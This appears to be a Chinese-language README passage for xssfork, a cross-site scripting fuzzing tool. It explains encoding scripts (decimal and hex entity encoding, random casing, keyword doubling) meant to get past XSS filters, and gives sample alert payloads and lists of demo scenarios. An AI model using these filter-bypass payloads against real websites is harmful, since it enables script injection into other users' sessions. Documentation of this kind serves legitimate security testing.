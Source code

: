 ![](http://ohsqlm7gj.bkt.clouddn.com/17-7-24/38956876.jpg)
基础payload会在现有的基础上，会添加上各种闭合的情况。
![](http://ohsqlm7gj.bkt.clouddn.com/17-7-24/58148554.jpg)
除了这些基础的payload,xssfork还提供了几个编码脚本，查看脚本，可以看help
![](http://ohsqlm7gj.bkt.clouddn.com/17-7-24/12237078.jpg)
现阶段提供了10进制，16进制，随机大小写，关键字叠加四个脚本。
### 10hex_encode
将html标签内部字符10进制化
&lt;a href=&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3a&#x61&#x6c&#x65&#x72&#x74&#x28&#x36&#x35&#x35&#x33&#x34&#x29&#x3b&gt;aaa&lt;/a&gt;
![](http://ohsqlm7gj.bkt.clouddn.com/17-7-24/19641734.jpg)
其效果如下
![](http://ohsqlm7gj.bkt.clouddn.com/17-7-24/26774362.jpg)

### 16hex_encode
将html标签内部字符16进制化
### uppercase
随机大小写
将
&lt;script&gt;alert(65534);&lt;/script&gt;
转换成
&lt;ScRIPt&gt;alert(65534);&lt;/ScRIpT&gt;
### addkeywords
主要是应对过滤为replace('keyword&gt;s','')的情况  
&lt;script&gt;alert(65534);&lt;/script&gt;
变成
&lt;&lt;script&gt;script&gt;alert(65534);&lt;/script&gt;
当然默认开启的是轻量模式，即只返回一个payload，开启重量模式，可以生成更加丰富的payload，效果如下
&lt;script&gt;alert(65534);&lt;/script&gt;  
&lt;script&gt;alert(65534);&lt;/ScrIpt&gt;  
&lt;ScrIpt&gt;alert(65534);&lt;/sCrIpt&gt;  
&lt;scRiPt&gt;alert(65534);&lt;/script&gt;  
&lt;ScrIpt&gt;alert(65534);&lt;/script&gt;
## 演示
场景1.反射型xss  
![](http://shentoushi.top/manypic/Uploads/2016-09-26/%E5%8F%8D%E5%B0%84%E5%9E%8Bxss.gif)  
场景2.大小写绕过  
![](http://shentoushi.top/manypic/Uploads/2016-09-26/%E5%A4%A7%E5%B0%8F%E5%86%99%E7%BB%95%E8%BF%871%20xss.gif)
![](http://shentoushi.top/manypic/Uploads/2016-09-26/%E5%A4%A7%E5%B0%8F%E5%86%99%E7%BB%95%E8%BF%872%20xss.gif)  
场景3.dom型xss  
![](http://shentoushi.top/manypic/Uploads/2016-09-26/dom%20xss1.gif)
![](http://shentoushi.top/manypic/Uploads/2016-09-26/dom%20xss2.gif)
场景3.post类型
![](http://shentoushi.top/manypic/Uploads/2016-09-26/post%20xss1.gif)
场景4.需要验证cookie
![](http://shentoushi.top/manypic/Uploads/2016-09-26/cookie%20xss.gif)
